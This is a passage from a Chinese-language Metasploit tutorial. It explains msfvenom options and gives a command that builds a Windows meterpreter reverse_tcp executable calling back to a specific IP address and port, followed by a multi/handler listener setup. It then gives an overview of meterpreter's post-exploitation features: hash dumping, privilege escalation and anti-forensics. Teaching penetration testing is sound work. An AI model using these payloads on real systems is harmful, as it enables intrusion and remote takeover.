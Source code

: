 ```sh
    -a, --arch        <architecture>     用于--payload和--encoders的体系结构(使用 --list archs 列出)
        --platform    <platform>         指定payload使用的平台（使用--list platform列出）
    -o, --out         <path>            保存payload
    -b, --bad-chars   <list>              设定规避字符集，比如: '\x00\xff'
    -n, --nopsled     <length>            为payload预先指定一个NOP滑动长度
        --pad-nops                      将由-n指定的nopsled大小用作总有效负载大小，自动添加nopsled数量(nops减去payload长度)
    -s, --space       <length>            设定有效攻击荷载的最大长度
        --encoder-space <length>        编码的有效负载的最大大小（默认为-s value）
    -i, --iterations  <count>             指定payload的编码次数
    -c, --add-code    <path>              指定一个附加的win32 shellcode文件
    -x, --template    <path>              指定一个自定义的可执行文件作为模板
    -k, --keep                          保护模板程序的动作，注入的payload作为一个新的进程运行
    -v, --var-name    <name>            指定一个自定义的变量，以确定输出格式
    -t, --timeout     <second>          从STDIN读取有效负载时要等待的秒数（默认为30，0 为禁用）
    -h, --help                           查看帮助选项
        --help-formats                   查看msf支持的输出格式列表
```

<br/>

##### b、msfvenom生成Payload

生成payload有两个必须的选项：-p  -f ，使用-p来指定要使用的payload，使用-f来指定payload的输出格式。

注意生成payload操作使用的是msfvenom独立命令，实在linux的cli中独立操作，并非msf控制台中。

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=107.182.190.222 LPORT=9809 -f exe > cale.exe 
```

监听

```sh
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 107.182.190.222
set LPORT 9809
run
```

<br/>

#### 4、监听模块

<br/>

##### a、meterpreter简介

Meterpreter是MSF中的一个杀手锏，通常作为漏洞溢出后的攻击载荷所使用，攻击载荷在触发漏洞后能够返回给我们一个控制通道。

Meterpreter是MSF的一个扩展模块，可以调用MSF的一些功能，对目标系统进行更为深入的渗透，这些功能包括反追踪、纯内存工作模式、密码哈希值获取、特权提升、跳板攻击等等。

<br/>

##### b、常用操作命令

将当前session挂起：`background`
